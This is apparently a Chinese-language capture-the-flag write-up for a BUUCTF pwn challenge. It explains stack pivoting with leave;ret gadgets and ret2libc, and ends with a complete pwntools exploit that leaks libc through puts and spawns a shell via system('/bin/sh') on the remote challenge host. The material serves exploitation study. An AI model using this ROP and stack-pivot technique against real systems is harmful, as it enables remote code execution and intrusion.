 # W2 stack migration

## 文件分析

下载`-2`(什么魔鬼命名), NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 逆向

这道题写明了需要栈迁移：从read的参数可知，我们只能写完`prev_rbp`后只剩8字节  
而当前栈上非常空旷，有0x50个字节可用！

## 前置知识

call的时候，会向栈内压入call下面1条指令，进入函数后，会压入rbp，然后
mov rbp, rsp  
leave执行mov rsp, rbp; pop rbp，ret执行pop rip如下图所示（建议配合exp）  
![legend](../assets/legend.jpg)

由于rbp间接影响返回地址，所以需要运行2次`leave;ret`，这时retAddr就写`leave;ret`的地址

## 思路

将栈迁移过来后，按ret2libc思路做即可

这里使用LibcSearcher，主要是方便本机调试，各位完全可以用提供的libc里的地址

## EXPLOIT

```python
from pwn import *
import LibcSearcher
sh = remote('node4.buuoj.cn', 25434)

# payload 1
sh.sendlineafter(b'name:', b'0'*7) # 这里不能输8个字符，否则换行符会落到下面导致payload 2发送出现问题
sh.recvuntil(b'you: ') # skip
space = int(sh.recvuntil(b'info')[:14], 16) + 16 # leak name addr; shift it to $rbp - 0x50

elf = ELF('minus2')
putsPlt = elf.plt['puts']
putsGot = elf.got['puts']
popRdiAddr = 0x401333
vulnAddr = 0x4011fb
retAddr = 0x4012ab
leaveRetAddr = 0x4012a9
# print(hex(space)) # for dbg

# payload 2
sh.sendlineafter(b'plz:', b'0'*8 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(vulnAddr) + b'0'*0x28 + p64(space - 8) + p64(leaveRetAddr))
# note that a \n will be left and we must comment the send below
# payload structure: [buf | space <- payload (0x48B) | prev_rbp | retAddr]

sh.recvuntil(b'soon!\n') # skip
putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')
libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump('puts')
shstrAddr = libcBase + libc.dump('str_bin_sh')
systemAddr = libcBase + libc.dump('system')

# sh.sendlineafter(b'name:', b'0'*5) # affected by the '\n' leftover; the name is '\n'
sh.recvuntil(b'you: ') # skip
space = int(sh.recvuntil(b'info')[:14], 16) + 16
# print(hex(space)) # for dbg

# payload 3
sh.sendlineafter(b'plz:', b'0'*8 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr) + b'0'*0x28 + p64(space - 8) + p64(leaveRetAddr))

sh.interactive()
```

Done.
